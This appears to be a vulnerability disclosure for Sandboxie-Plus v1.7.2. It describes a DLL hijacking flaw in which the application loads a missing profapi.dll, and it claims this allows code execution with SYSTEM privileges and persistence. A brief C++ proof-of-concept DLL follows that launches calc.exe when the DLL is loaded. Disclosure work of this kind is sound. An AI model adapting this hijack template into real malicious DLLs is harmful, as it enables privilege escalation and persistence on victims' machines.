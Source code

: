 ## The name of an affected Product : sandboxie

## Affected Version : Sandboxie-Plus-x64-v1.7.2(Latest)

## Product Address: https://sandboxie-plus.com/downloads/

## Description : profapi.dll is missing so an attacker can use a malicious dll with same name and can get a admin privileges and also perform a way of persistence on the victim machine.

## Impact : An attacker could exploit this vulnerability by placing a malicious DLL file on the targeted system. This file will execute when the vulnerable application launches. A successful exploit could allow the attacker to execute arbitrary code on the targeted system with SYSTEM PRIVILEGES as well the attacker can maintain persistence on the target system.

Poc code:
```C++
// dllmain.cpp
#include "pch.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("calc.exe");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```